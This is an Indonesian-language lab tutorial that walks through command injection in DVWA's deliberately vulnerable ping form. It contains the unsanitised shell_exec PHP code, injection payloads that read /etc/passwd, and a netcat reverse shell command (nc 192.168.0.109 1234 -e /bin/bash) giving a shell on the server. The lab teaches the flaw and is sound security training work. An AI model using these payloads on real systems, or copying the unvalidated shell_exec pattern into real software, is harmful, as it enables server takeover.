 +++
title = "DVWA - Command Injection"
date = 2024-10-13T17:04:53+07:00
cover = ""
summary = "Command injection is a simple yet still pretty common and relevant vulnerability in the real world even nowadays..."
tags = [ "docker", "DVWA", "web", "hacking", "command injection", "reverse shell" ]
categories = "command injection"
+++

Sesuai dengan namanya, ***Command Injection*** adalah kerentanan pada aplikasi web yang memungkinkan seorang penyerang dapat meng-*execute* perintah-perintah sistem operasi. Misalnya, *commands* sistem operasi Linux ada **`pwd`**, **`ls`**, **`cat`**, dan lain sebagainya. *Command injection* dapat terjadi disebabkan oleh tidak kurangnya perhatian seorang developer web terhadap **validasi input**.[^1]

Untuk membuktikan, kita mula-mula akan melihat demonstrasinya command injection terlebih dahulu melalui DVWA yang sudah kita *install* dan *set up* di artikel sebelumnya. Setelah login ke DVWA dengan credensial default, <mark> **admin:password**</mark>, pergi ke menu **Command Injection**. Di sana, ada *form* **`ping`** dan kita bisa meng-*input*-kan *ip address* untuk di-**`ping`**. Kita bisa coba dengan memasukkan *ip address* komputer kita dan nanti *output* **`ping`**-nya akan tampil di bawah *form* tersebut.

<div style="display: flex; justify-content: center;">
  <video width="80%" controls autoplay loop muted>
    <source src="/commandinjection/vid1.mp4" type="video/mp4">
  </video>
</div>

Sekarang, kita akan lihat *source code* yang ada di belakangnya, berikut:

> **Notes:** *Source code*-nya bisa dilihat di bagian bawah halaman website pada bagian **"View Source"**

```php
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = $_REQUEST[ 'ip' ];

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    echo "<pre>{$cmd}</pre>";
}

?>
```

Perhatikan bahwa pada variable **`$cmd`** yang mengambil input dari *user* untuk kemudian dieksekusi, yaitu $cmd = **`shell_exec( 'ping  ' . $target );`** jika DVWA di-host di server Windows dan **`$cmd = shell_exec( 'ping  -c 4 ' . $target );`** jika DVWA di-*deploy* di Linux, tidak ada validasi / sanitasi *input*-nya. Itu artinya, kita dapat melakukan *command injection* dengan mem-*bypass* perintah **`ping`** di server dengan karakter yang umum digunakan untuk melakukan serangan *command injection*, yaitu *semicolon* **(:)** sehingga *attacker* dapat memberikan perintah lain ke server.

<mark> Karakter *semicolon* **(;)** adalah sebuah *standard item* dalam *environment* UNIX/Linux untuk memisahkan *commands*</mark>.[^2]

Misalnya, saya ingin melihat isi file **`/etc/passwd`** di server, saya dapat menambahkan karakter semicolon **(;)** yang diikuti dengan perintah **`cat /etc/passwd`** setelah menuliskan *ip address* pada *form* **`ping`** tersebut:

{{< collapse summary="**Info: /etc/passwd**" open=false >}}

File **`/etc/passwd`** dalam sistem operasi linux menyimpan semua data user yang terdaftar di sistem operasi tersebut, baik *system/service user* seperti **www-data**, **mysql**, **sshd**, dan lainnya maupun *login user* seperti saya sendiri sebagai pengguna komputer.

Sebagai ilustrasi, dalam mesin saya, berikut adalah isi file **`/etc/passwd`**-nya:

![ss1](/commandinjection/ss1.png "/etc/passwd")

{{< /collapse >}}

![ss2](/commandinjection/ss2.png "command injection cat /etc/passwd")

Kita bisa lihat *output* yang ditampilkan di website, mula-mula perintah **`ping -c 4 192.168.0.109`** dieksekusi (menge-**`ping`** / mengirimkan paket **ICMP** - *Internet Control Message Protocol* ke *ip address* 192.168.0.109 ) terlebih dahulu ke server, kemudian perintah **`cat /etc/passwd`** dieksekusi setelahnya.

Atau jika kita ingin perintahnya lebih sederhana, kita bisa hanya mengetikkan perintah **`; cat /etc/passwd`** tanpa harus mengetikkan ip address-nya terlebih dahulu karena tadi, fungsi karakter *semicolon* adalah memisahkan dua perintah atau lebih, jadi perintah pertama akan dieksekusi (jika ada) dan kemudian perintah kedua akan dieskekusi.

![ss3](/commandinjection/ss3.png "simpler command injection cat /etc/passwd")

Sekarang kita paham bahwa dalam konteks ini, kerentanan *command injection* di website mengakibatkan *attacker* dapat mengeksekusi perintah sistem operasi apapun dari website. Itu juga berarti bahwa *attacker* dapat melakukan [***reverse shell***](https://integrasolusi.com/blog/pentesting-perbandingan-bind-shell-dan-reverse-shell/) untuk mendapatkan *shell* server. Ketika *attacker* sudah berhasil mendapatkan *shell*, itu artinya server sudah berhasil "dibajak". 

Untuk demonstrasi *reverse shell*, saya akan menggunakan [**`netcat`**](https://www.geeksforgeeks.org/introduction-to-netcat/):

Pertama, kita perlu mengecek / memastikan dulu bahwa **`netcat`** / **`nc`** ter-*install* di dalam di server dengan mengetikkan perintah berikut di *form* **`ping`**:

```shell
; whereis nc
```

![ss4](/commandinjection/ss4.png "checking netcat in the server")

**`Netcat`** ada di dalam server. Kita bisa melakukan *reverse shell* sederhana dengan **`netcat`**. 

Mula-mula, kita jalankan **`netcat`** di komputer kita (sebagai *attacker*) terlebih dahulu untuk melakukan *listening* paket:

```shell
nc -lvnp 1234
```

> **Keterangan:**  
> - <mark> -l</mark> : melakukan *listening*.
> - <mark> -v</mark> : melakukan *verbosity*.
> - <mark> -n</mark> : *ip address* tanpa DNS.
> - <mark> -p</mark> : port yang akan melakukan *listening*.
> - <mark> 1234</mark> : nomor port-nya.  
> 
> Untuk info lebih lanjut, bisa baca-baca di **`man nc`**.

Perintah di server (di *form* **`ping`**):

```shell
nc 192.168.0.109 1234 -e /bin/bash
```

> **Keterangan:**  
> - <mark> 192.168.0.109</mark> : *ip address attacker*.
> - <mark> 1234</mark> : port *attacker* yang sedang *listening*.
> - <mark> -e</mark> : *binary* / perintah yang mau dieksekusi.
> - <mark> /bin/bash</mark> : memberi akses BASH shell ke *attacker*. 
> 
> Untuk info lebih lanjut, bisa baca-baca di **`man nc`**.

<div style="display: flex; justify-content: center;">
  <video width="100%" controls autoplay loop muted>
    <source src="/commandinjection/vid2.mp4" type="video/mp4">
  </video>
</div>

Dan kita berhasil mendapatkan *shell* server-nya sebagai user **www-data**.


[^1]: https://owasp.org/www-community/attacks/Command_Injection
[^2]: https://www.ibm.com/support/pages/meaning-semi-colon-colon-unix-script-sterling-gentranserver-unix
